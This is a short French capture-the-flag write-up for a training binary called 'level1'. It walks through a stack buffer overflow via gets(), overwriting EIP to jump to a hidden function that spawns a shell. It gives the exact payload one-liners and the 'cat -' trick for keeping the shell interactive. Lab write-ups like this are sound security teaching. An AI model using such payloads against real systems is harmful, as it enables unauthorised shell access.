 ## Level 1

Avec objdump, on observe deux fonctions: `main()` et `run()`.

`run()` n'est jamais appelé mais, on y voit un appel a `system(/bin/sh)`.

`main()` contient un buffer de 80 characteres, qu'on peut overflow, grace au manque de vérification de l'appel `gets`.

On remplis donc le buffer avec des données random, puis on réecrit l'EIP avec
l'adresse de la fonction run, trouvé avec objdump.

`$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1`

`$ Good... Wait what?`

`$ segfault.`

On arrive a faire executer la fonction caché mais, l'appel a `system()` n'a pas
l'air de réagir.
Cause: l'orsque `system(/bin/sh)` est exécuté, l'entré standart n'est pas
disponible, il faut donc faire en sorte de garder la main sur le shell avec
l'entrée standart:

On ultilise le charactere '-' avec le binaire cat.

`$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/level1`

`$ cat /tmp/level1 - | ./level1`

Et voila, le shell reste a l'écoute de nos commandes. On peut donc naviguer
vers le `/home/` du user level2 et récuperer le flag.
